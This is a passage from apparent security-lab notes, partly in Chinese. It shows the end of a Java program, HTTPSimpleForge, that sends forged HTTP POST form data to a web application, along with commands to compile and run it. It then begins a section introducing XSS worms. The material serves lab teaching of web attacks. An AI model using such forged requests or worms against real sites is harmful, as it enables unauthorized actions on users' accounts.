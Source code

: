```java
    // using the method in task3.
    urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
    //HTTP Post Data which includes the information to be sent to the server.
    String data="name=test&desc=test...&assignto[]=...&assignme=1";
    // DoOutput flag of URL Connection should be set to true
    // to send HTTP POST message.
    urlConn.setDoOutput(true);
    // OutputStreamWriter is used to write the HTTP POST data
    // to the url connection.
    OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
    wr.write(data);
    wr.flush();
    // HttpURLConnection a subclass of URLConnection is returned by
    // url.openConnection() since the url is an http request.
    if (urlConn instanceof HttpURLConnection) {
    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
    // Contacts the web server and gets the status code from
    // HTTP Response message.
    responseCode = httpConn.getResponseCode();
    System.out.println("Response Code = " + responseCode);
    // HTTP status code HTTP_OK means the response was
    // received sucessfully.
    if (responseCode == HttpURLConnection.HTTP_OK) {
    //Laboratory for Computer Security Education 6
    // Get the input stream from url connection object.
    responseIn = urlConn.getInputStream();
    // Create an instance for BufferedReader
    // to read the response line by line.
    BufferedReader buf_inp = new BufferedReader(
    new InputStreamReader(responseIn));
    String inputLine;
    while((inputLine = buf_inp.readLine())!=null) {
    System.out.println(inputLine);
    }
    }
    }
    } catch (MalformedURLException e) {
    e.printStackTrace();
    }
    }
    }
```
> - 使用 javac HTTPSimpleForge.java 编译文件
> - 使用 java HTTPSimpleForge 运行程序

### lab5 XSS蠕虫 

#### xss蠕虫 cross site scripting worm 

是一种跨站脚本病毒， 通常由脚本语言Javascript写成， 它借由网站访问者传播。由于XSS蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内达到对巨大数量的计算机感染；
